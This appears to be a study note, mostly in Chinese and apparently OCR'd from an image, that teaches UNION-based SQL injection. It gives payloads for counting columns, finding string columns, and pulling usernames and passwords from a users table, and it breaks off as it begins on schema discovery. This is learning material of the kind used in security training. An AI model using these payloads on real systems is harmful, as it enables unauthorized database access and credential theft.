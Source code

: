### 使用UNION进行SQL注入攻击
SQL的UNION操作允许一次性执行多个SELECT查询操作，并将多条查询语句的结果合并成一个结果

**_注意_**

* 要求多条查询语句的查询列数必须是一致的
* 要求多条查询语句的查询的每一列的类型和顺序最好一致
* UNION关键字默认去重，如果使用UNION ALL可以包含重复项
```SQL
select a, b from table1 union select c,d from table2
```
UNION与UNION ALL的区别：UNION是去重且排序的，而UNION ALL是不查重，不排序的
可以通过UNION操作

可以通过UNION操作来判断数据表中属性列的个数
```SQL
' order by 1 --
' order by 2 --
' order by 3 --
.......
```
如果数字超过了属性列的个数，则会报错

或者
```SQL
select * from DB where category='pets' union select null'
' UNION SELECT NULL -- 
' UNION SELECT NULL, NULL --
' UNION SELECT NULL, NULL, NULL --
......
```
Reason for using **NULL** because data types in each column must be compatible between 
the original and the injected queries. Since **NULL** is convertible to every commonly
used data type, using **NULL** maximizes the chance that the payload will succeed when the
column count is correct

不仅可以通过UNION操作来判断数据表中属性列的个数，还可以判断每个列的数据类型

**尤其要找字符型**
```SQL
' UNION SELECT 'a', NULL, NULL -- 
' UNION SELECT NULL,'a', NULL -- 
' UNION SELECT NULL, NULL, 'a' --
或者这种
' UNION SELECT 123, 'ABC', 123 --
```
同时UNION操作也具备同时查找多个数据表的数据

```SQL
select * from DB where category='Pets' union select username, password from users -- '
```
#### 通过SQL注入来探索数据库结构（库、表、列）
有几种方法

1. 当确定好列数，并确定好每一个属性列的数据类型后
```SQL
select 1,2,3,4
select 1,database(),3,4
......
```
